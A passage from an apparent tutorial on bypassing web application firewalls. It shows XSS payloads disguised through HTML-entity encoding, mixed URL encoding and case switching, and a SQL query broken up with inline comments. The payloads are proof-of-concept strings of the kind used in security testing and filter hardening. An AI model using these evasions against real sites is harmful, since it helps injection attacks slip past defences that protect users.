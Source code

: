 **Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with HTML entities:**
```bash
&lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;
```

## 4. Mixed Encoding Technique

**How to do it:**  
Combine multiple encoding techniques (e.g., URL encoding and HTML entities) in a single payload to confuse the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with mixed encoding:**
```bash
%3Cscript%3Ealert%28%26%2339%3BXSS%26%2339%3B%29%3C%2Fscript%3E
```

## 5. Case Manipulation

**How to do it:**  
Combine uppercase and lowercase characters to create efficient payloads.

**Blocked original request:**
```bash
<script>confirm()</script>
```

**Updated with case-switching:**
```bash
<ScrIpT>confirm()</sCRiPt>
```

## 6. Bypassing Filters with Comments

**How to do it:**  
Insert comments or extraneous characters within the payload to break up the patterns the WAF is looking for.

**Blocked original request:**
```bash
SELECT * FROM users WHERE id=1;
```

**Updated with comments:**
```bash
SELECT/*comment*/ * FROM users WHERE id=1;
```
